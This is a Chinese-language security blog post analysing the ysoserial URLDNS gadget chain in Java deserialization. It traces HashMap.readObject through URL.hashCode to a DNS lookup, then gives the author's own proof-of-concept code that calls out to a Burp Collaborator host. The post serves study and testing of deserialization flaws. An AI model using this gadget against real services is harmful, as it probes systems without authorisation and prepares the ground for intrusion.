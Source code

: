 ```yaml
---
title: "ysoserial URLDNS分析"
date: 2020-02-12T22:28:34+08:00
draft: false
tags:
- java
- ysoserial
series:
-
categories:
- 代码审计
---
```


简单的gadget构造。
<!--more-->

## 分析

先来看ysoserial的payload
```java
public Object getObject(final String url) throws Exception {

    //Avoid DNS resolution during payload creation
    //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
    URLStreamHandler handler = new SilentURLStreamHandler();

    HashMap ht = new HashMap(); // HashMap that will contain the URL
    URL u = new URL(null, url, handler); // URL to use as the Key
    ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

    Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

    return ht;
}
```
可以看到是HashMap类的问题，而触发反序列化的⽅法是 readObject ，直奔 HashMap 类的 readObject ⽅法：
```java
private void readObject(java.io.ObjectInputStream s)
    throws IOException, ClassNotFoundException {
    // Read in the threshold (ignored), loadfactor, and any hidden stuff
    s.defaultReadObject();
    reinitialize();
    if (loadFactor <= 0 || Float.isNaN(loadFactor))
        throw new InvalidObjectException("Illegal load factor: " +
                                         loadFactor);
    s.readInt();                // Read and ignore number of buckets
    int mappings = s.readInt(); // Read number of mappings (size)
    if (mappings < 0)
        throw new InvalidObjectException("Illegal mappings count: " +
                                         mappings);
    else if (mappings > 0) { // (if zero, use defaults)
        // Size the table using given load factor only if within
        // range of 0.25...4.0
        float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
        float fc = (float)mappings / lf + 1.0f;
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                   DEFAULT_INITIAL_CAPACITY :
                   (fc >= MAXIMUM_CAPACITY) ?
                   MAXIMUM_CAPACITY :
                   tableSizeFor((int)fc));
        float ft = (float)cap * lf;
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                     (int)ft : Integer.MAX_VALUE);

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
        @SuppressWarnings({"rawtypes","unchecked"})
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
        table = tab;

        // Read the keys and values, and put the mappings in the HashMap
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
            K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
            V value = (V) s.readObject();
            putVal(hash(key), key, value, false, false);
        }
    }
}
```
在最后进行了hash(key)计算，跟进
```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```
进行了hashCode()函数，而key此时是我们传入的 java.net.URL 对象，那么跟进这个类的hashCode()方法看下
```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
当hashCode字段等于-1时会进行handler.hashCode(this)计算，handler是定义的URLStreamHandler字段，那么进入java.net.URLStreamHandler#hashCode()

![image](https://user-images.githubusercontent.com/40487319/74216409-51157480-4cdf-11ea-8758-c3802489119d.png)

u是我们传入的URL，getHostAddress会进行dns查询。整个链比较简单：
1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()

## 构造payload
```java
package com.sera.urldns;

import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS implements Serializable {

    public static void main(String[] args) throws MalformedURLException, NoSuchFieldException, IllegalAccessException {

        URLStreamHandler handler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }
        };
        HashMap hm = new HashMap();
        String url = "http://0jkp1tes60w8k6928kvujpirnit9hy.burpcollaborator.net";
        URL u = new URL(null, url, handler);
        Class clazz = u.getClass();

        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u, -1);
        hm.put(u, url);
    }

}
```
![image](https://user-images.githubusercontent.com/40487319/74216530-b49fa200-4cdf-11ea-89e7-a1ad73e6b588.png)


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**


